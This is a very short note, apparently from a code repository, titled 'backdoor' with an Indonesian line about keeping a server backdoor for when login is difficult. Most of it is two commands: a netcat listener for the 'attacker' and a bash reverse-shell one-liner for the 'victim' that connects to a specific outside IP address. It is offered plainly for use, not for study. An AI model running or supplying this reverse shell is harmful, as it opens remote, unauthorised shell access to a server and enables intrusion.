 # backdoor
Buat pintu belakang server kalau misal susah login.

ATTACKER
```nc -nvvlp 6969```

VICTIM
```bash -i >& /dev/tcp/110.137.144.99/6969 0>&1```
